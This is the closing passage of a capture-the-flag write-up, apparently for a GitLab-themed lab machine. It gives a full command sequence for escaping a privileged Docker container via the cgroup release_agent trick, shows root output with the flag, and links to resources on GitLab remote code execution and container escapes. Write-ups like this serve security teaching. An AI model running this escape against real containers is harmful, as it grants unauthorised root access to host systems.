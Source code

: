 Lets follow this command to get **root.txt**
```
$ mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
$ echo 1 > /tmp/cgrp/x/notify_on_release
$ host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
$ echo "$host_path/cmd" > /tmp/cgrp/release_agent
$ echo '#!/bin/sh' > /cmd
$ echo "cat /root/root.txt > $host_path/output" >> /cmd
$ chmod a+x /cmd
$ sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

And we get **root.txt**
```
root@gitlab:/# ls
RELEASE  bin   cmd  etc   lib    media  opt     proc  root_pass  sbin  sys  usr
assets   boot  dev  home  lib64  mnt    output  root  run        srv   tmp  var
root@gitlab:/# cat output 
b7f98681505cd39066f67147b103c2b3
```

# Result and Resources

1. https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/
2. https://github.com/dotPY-hax/gitlab_RCE
3. https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-2-using-socat
4. https://medium.com/better-programming/escaping-docker-privileged-containers-a7ae7d17f5a1
5. https://habr.com/ru/post/56049/
6. https://docs.gitlab.com/ee/administration/troubleshooting/gitlab_rails_cheat_sheet.html
